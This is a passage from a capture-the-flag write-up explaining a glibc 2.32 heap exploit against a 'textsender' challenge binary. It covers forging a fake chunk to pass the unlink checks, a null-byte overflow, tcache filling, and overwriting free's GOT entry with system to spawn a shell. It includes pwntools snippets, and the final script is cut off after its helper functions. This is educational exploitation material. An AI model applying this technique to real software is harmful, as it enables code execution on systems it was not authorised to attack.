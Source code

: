 So, it will check if `*(*(rdi + 0x10) + 0x18) == RDI`.

Lets supply `fd = bk = p (i.e *(rdi + 0x10) = *(rdi + 0x18) = rdi)`

The check will check if `*(rdi + 0x18) == RDI`. we can control `rdi + 0x18`, so we can just write the address of the chunk there. 

It will have another check after it, which will check `*(rdi + 0x20)`, so we write p's address twice.

```py
    prev_size = 0xf0
    current_chunk_address = heap_base + 0x1500
    add_msg("a",  b"A" * 424+ p64(prev_size)  + p64(current_chunk_address + 0x10) * 2+ p64(current_chunk_address) * 2)
```

Now, we'll allocate 6 chunks to fill up the tcache bins, and we trigger our null byte overflow bug. 
Then we free everything up, which will consolidate the chunk with our fake chunk of size 0xf0. this is how it looks like in the heap:

![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/db2a7471-ee17-4b59-840e-9b9490e336ec)

This is our bins state after the consolidation:

![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/5e262ffc-6a6a-4102-a614-40f8c98391cf)

the tcaches are full , so in order to get the unsortedd bin we need to allocate 7 messages.

Then our next message's msg field will be allocated from our fake chunk, and we can overwrite the msg struct.

We will change the msg pointer to a location we would like to read/write to (free got), and then use the edit function to leak its contents and write into it.

In order for the edit function to find our msg, we need to change the name pointer aswell. The edit function will use `free` at the end with the name as a paremeter, so if we enter `/bin/sh` as the name, `free(/bin/sh)` will be called.

But if we write into free got, the system address, system(/bin/sh) will be called. Here is my final script:

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./textsender")
libc = ELF("./libc-2.32.so")
ld = ELF("./ld-2.32.so")

context.binary = exe

p = gdb.debug([exe.path])


def set_sender(name):
    p.recvuntil("> ")
    p.sendline("1")
    p.recvuntil(": ")
    p.sendline(name)

def add_msg(receiver="empty", msg="empty"):
    p.recvuntil("> ")
    p.sendline("2")
    p.recvuntil("Receiver: ")
    p.sendline(receiver)
    p.recvuntil("Message: ")
    p.sendline(msg)
```